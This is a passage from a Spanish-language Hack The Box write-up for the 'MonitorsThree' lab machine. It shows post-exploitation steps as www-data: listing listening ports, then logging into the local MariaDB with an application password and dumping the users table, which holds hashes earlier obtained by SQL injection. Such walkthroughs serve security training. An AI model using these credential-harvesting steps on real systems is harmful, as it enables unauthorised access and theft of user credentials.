 ![](assets/img/htb-writeup-monitorsthree/monitorsthree4_0.png)

El puerto 3306 está activo en el sistema, lo que confirma que el servicio MySQL está funcionando.

```terminal
www-data@monitorsthree:/$ ss -tulnp
```

![](assets/img/htb-writeup-monitorsthree/monitorsthree4_1.png)

Confirmo la presencia de las credenciales utilizadas por los usuarios de la aplicación Cacti, incluyendo el hash previamente dumpeado por SQLi.

```terminal
www-data@monitorsthree:/$ mysql -u app_user -p -h 127.0.0.1 -P 3306
Enter password: php_app_password

MariaDB [(none)]> USE monitorsthree_db;

MariaDB [(monitorsthree_db)]> select * from users;
```

![](assets/img/htb-writeup-monitorsthree/monitorsthree4_2.png)
